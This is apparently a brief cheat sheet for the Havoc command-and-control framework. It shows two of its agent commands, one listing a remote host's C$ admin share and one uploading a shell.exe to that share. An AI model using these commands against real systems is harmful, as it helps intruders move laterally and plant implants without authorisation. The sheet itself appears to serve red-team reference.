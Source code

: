 # Havoc

## 01 - List Files and Directories

`Demon » dir \\<IP>\c$`

## 02 - Upload Files

`Demon » upload /path/to/shell.exe\\<IP>\c$\shell.exe`